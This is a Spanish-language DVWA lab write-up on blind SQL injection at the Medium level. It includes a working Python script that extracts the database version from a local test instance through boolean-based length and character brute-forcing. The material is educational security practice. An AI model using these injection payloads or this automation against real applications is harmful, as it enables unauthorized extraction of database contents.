

# DVWA Writeup: SQL Injection Blind

## 1. Introducción
La **Inyección SQL Ciega (Blind SQLi)** ocurre cuando una aplicación web es vulnerable a inyección SQL, pero no muestra los resultados de las consultas directamente en la pantalla de respuesta. 


En lugar de ver los datos extraídos en una tabla, el atacante debe inferir la información haciéndole preguntas a la base de datos que se responden con un "Sí" o un "No" (Boolean-based), o comprobando si el servidor tarda más de lo normal en responder mediante comandos de pausa como `sleep(5)` (Time-based).

---

## 2. Solución Nivel Medium

En este reto, la aplicación solo nos confirma si un "User ID" existe o no en la base de datos. No nos devuelve el nombre ni el apellido, por lo que tenemos que extraer la información a ciegas.

### Análisis de la protección
En el nivel *Medium*, la vulnerabilidad se encuentra en un parámetro enviado por el método HTTP POST. El parámetro `id` se inserta directamente en la consulta interna del servidor sin necesidad de usar comillas simples para escapar la cadena.

### Explotación (Scripting en Python)
Hacer este ataque a mano (preguntando letra por letra si es la 'a', la 'b', etc.) es extremadamente tedioso. Por ello, la mejor forma de explotarlo es automatizar las peticiones de Verdadero/Falso utilizando un script en Python.

El código que utilizamos funciona en dos fases lógicas:
1. **Adivinar la longitud:** El script envía peticiones POST variando la longitud esperada usando `id=1+and+length(version())={i}` hasta que el servidor responde afirmativamente.
2. **Fuerza bruta de caracteres:** Una vez que conoce cuántas letras tiene la respuesta, itera posición por posición y prueba diferentes valores ASCII utilizando `id=1+and+ascii(substring(version(),{i},{j}))={s}` para reconstruir el texto final de forma automatizada.

**Script utilizado (`sqli_blind.py`):**
```python
import requests
from requests.structures import CaseInsensitiveDict

headers = CaseInsensitiveDict()
headers["Cookie"] = "security=medium; PHPSESSID=b76b6d157bf011fe21f6ced3a97bd57d"
headers["Content-Type"] = "application/x-www-form-urlencoded"
url = 'http://127.0.0.1:4280/vulnerabilities/sqli_blind/'

for i in range(100):
    parameters = f"id=1+and+length(version())={i}&Submit=Submit"
    # parameters = {"id": f'1+and+length(version())={i}', "Submit": "Submit"}
    r = requests.post(url, headers=headers, data=parameters)
    if 'User ID exists in the database' in r.text:
        print(f'length = {i}')
        length = i
        break
j = 1
for i in range(1, length+1):
    for s in range(30, 126):
        parameters = f"id=1+and+ascii(substring(version(),{i},{j}))={s}&Submit=Submit"
        r = requests.post(url, headers=headers, data=parameters)
        if 'User ID exists in the database' in r.text:
            print(chr(s), end='')
            break
        j += 1
```

### Ejecución y Resultado
Al ejecutar nuestro script en la terminal, este automatiza todas las consultas ciegas contra el servidor local. Rápidamente logra inferir que la longitud de la cadena de la versión es de 24 caracteres (`length = 24`). 

Acto seguido, comienza a imprimir letra por letra hasta extraer exitosamente la versión completa de la base de datos subyacente en el servidor: `10.11.16-MariaDB-ubu2204`.

